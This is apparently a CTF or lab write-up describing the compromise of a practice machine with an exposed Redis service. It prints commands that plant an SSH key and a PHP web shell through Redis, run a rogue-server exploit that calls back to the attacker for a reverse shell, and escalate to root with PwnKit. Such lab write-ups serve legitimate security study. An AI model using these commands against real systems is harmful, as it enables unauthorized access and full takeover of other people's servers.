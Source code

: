 `nmap -A -T4 -p- 192.168.110.176`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 37:21:14:3e:23:e5:13:40:20:05:f9:79:e0:82:0b:09 (RSA)
|   256 b9:8d:bd:90:55:7c:84:cc:a0:7f:a8:b4:d3:55:06:a7 (ECDSA)
|_  256 07:07:29:7a:4c:7c:f2:b0:1f:3c:3f:2b:a1:56:9e:0a (ED25519)
6379/tcp open  redis   Redis key-value store 4.0.14
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   53.54 ms 192.168.45.1
2   53.52 ms 192.168.45.254
3   54.72 ms 192.168.251.1
4   54.79 ms 192.168.110.176
```


We only really have one port open that we will work with since SSH is normally not the first initial vector. I found this resource for [redis enumeration](https://hackviser.com/tactics/pentesting/services/redis) as I have not worked with it before. At the bottom of the page it has a guide on unauthorized ssh access so lets try that first.

```
$ ssh-keygen -t ecdsa -b 521 -f key
$ (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
$ redis-cli -h 192.168.110.176 flushall
$ cat key.txt | redis-cli -h 192.168.110.176 -x set pwn
$ redis-cli -h 192.168.110.176 config set dbfilename authorized_keys
$ redis-cli -h 192.168.110.176 config set dir /var/lib/redis/.ssh
$ redis-cli -h 192.168.110.176 save
```

That most certainly did not work as I got a permissions error when trying to set directory to `.ssh` so lets try the other option.

```
$ redis-cli -h 192.168.110.176 flushall
$ redis-cli -h 192.168.110.176 set pwn '<?php system($_REQUEST['cmd']); ?>'
$ redis-cli -h 192.168.110.176 config set dbfilename shell.php
$ redis-cli -h 192.168.110.176 config set dir /var/www/html
$ redis-cli -h 192.168.110.176 save
```

Those didn't work so I found a new resource [here](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html)which led me to find this [RCE](https://github.com/n0b0dyCN/redis-rogue-server?source=post_page-----49920d4188de---------------------------------------) lets test this POC to see if we can get a foothold.

```
python3 redis-rogue-server.py --rhost 192.168.110.176 --lhost 192.168.45.244
```

![](Images/Pasted%20image%2020250510103218.png)

We chose from the compiled exploit to generate a reverse shell on port 22. Which it was able to do successfully.

![](Images/Pasted%20image%2020250510103248.png)

Quickly upgrade our shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color
```

Time to start enumerating the system to see what we can do. But first since we got in as a user we can quickly grab the local flag.

![](Images/Pasted%20image%2020250510103407.png)

Lets try and do some manual enumeration before loading up linpeas. In the users directory is just a text file explaining why we were able to get our shell.

![](Images/Pasted%20image%2020250510103529.png)

We found that root is allowed to run the following without a password

![](Images/Pasted%20image%2020250510103625.png)

Lets check GTFOBins to see if there is anything about this. Doesn't appear to be our vector. Lets load up linpeas and see if it catches anything big. Well it seems that it was crashing the box. Lets look further into redis-status to see what it does before I completely write it off.

It appears that the binary is requesting a key when trying to execute the file.

![](Images/Pasted%20image%2020250510104713.png)

From my experience doing CTFs always check the binary to see if the key is hardcoded.

```
strings /usr/local/bin/redis-status
```

Which gave us a key.

![](Images/Pasted%20image%2020250510104825.png)

```
ClimbingParrotKickingDonkey321
```

Lets run the binary again and see what it does with proper authentication. That didn't really give anything besides doing systemctl for the status. After getting stuck I ended up just loading PwnKit from the linpeas output as I could not seem to find the proper escalation path.

```
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

Grab [PwnKit](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)and transfer it over to the target and execute it.

![](Images/Pasted%20image%2020250510110346.png)

After grabbing the root flag I found a wonderful writeup on what appears to be the intended solution which is a Buffer Overflow attack on the redis-status binary which can be found [here](https://markuched13.github.io/posts/pg/blackgate.html)Since BoF have been removed from the OSCP exam I don't feel too bad about skipping this attack chain.








